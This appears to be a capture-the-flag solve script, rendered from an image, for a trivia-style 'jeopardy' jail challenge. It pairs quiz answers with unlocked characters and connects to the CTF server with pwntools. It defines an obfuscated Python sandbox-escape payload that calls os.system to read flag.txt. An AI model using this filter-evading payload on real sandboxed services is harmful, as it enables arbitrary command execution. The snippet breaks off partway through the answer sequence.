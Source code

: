 ```python
	3 : b"October 17, 2020", #https://www.cics.umass.edu/event/hivestorm-cyber-defense-competition 'h'
	4 : b"UMass ACM", # https://umass.acm.org/  ',', '~', 'd'
	5 : b"Tuning a Web Application Firewall, IaaS, and More with Oracle" #ok 'b', 'y', 'z'
}
#################
Misc = {
	1 : b"Miscellaneous 100",
	2 : b"Miscellaneous 200",
	3 : b"Miscellaneous 300",
	4 : b"Miscellaneous 400",
	5 : b"Miscellaneous 500"
}

Miscs = {
	1 : b"Hopkinton", #https://www.boston.com/sports/boston-marathon/2021/09/22/unicorn-symbol-boston-marathon/ "'"
	2 : b"Russia", #ok 'e'
	3 : b"The Landlord's Game", #ok '['
	4 : b"President", #https://www.umassp.edu/about/past-presidents
	5 : b"Forever bracelet" #ok 'n', 'o'
}
#################
Oak = {
	1 : b"The Curse of Oak Island (The TV Show) 100",
	2 : b"The Curse of Oak Island (The TV Show) 200",
	3 : b"The Curse of Oak Island (The TV Show) 300",
	4 : b"The Curse of Oak Island (The TV Show) 400",
	5 : b"The Curse of Oak Island (The TV Show) 500"
}

Oaks = {
	1 : b"Lead cross", #ok '%'
	2 : b"it's another bobby dazzler", #ok '.', 'w'
	3 : b"Zena Halpern", #ok 'c', 'j'
	4 : b"James Anderson", #https://en.wikipedia.org/wiki/List_of_The_Curse_of_Oak_Island_episodes#ep77 '1', 'i'
	5 : b"Garden Shaft" #Historical landmark in Western Shore, Nova Scotia, Canada 'k', 'l', 'f'
}
#################

PAYLOAD = b"__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['sys'+'tem']('cat flag.txt')"

r = remote("jeopardyv3.misc.ctf.umasscybersec.org",1116)
r.recvS()
#start
r.sendline(b'ready')

### Cyprus
r.sendline(cyprus[1])
r.sendline(cypruss[1])
r.sendline(cyprus[2])
r.sendline(cypruss[2])
r.sendline(cyprus[3])
r.sendline(cypruss[3])
r.sendline(cyprus[4])
r.sendline(cypruss[4])
r.sendline(cyprus[5])
r.sendline(cypruss[5])

### ChatGPT
r.sendline(ChatGPT[1])
r.sendline(ChatGPTs[1])
```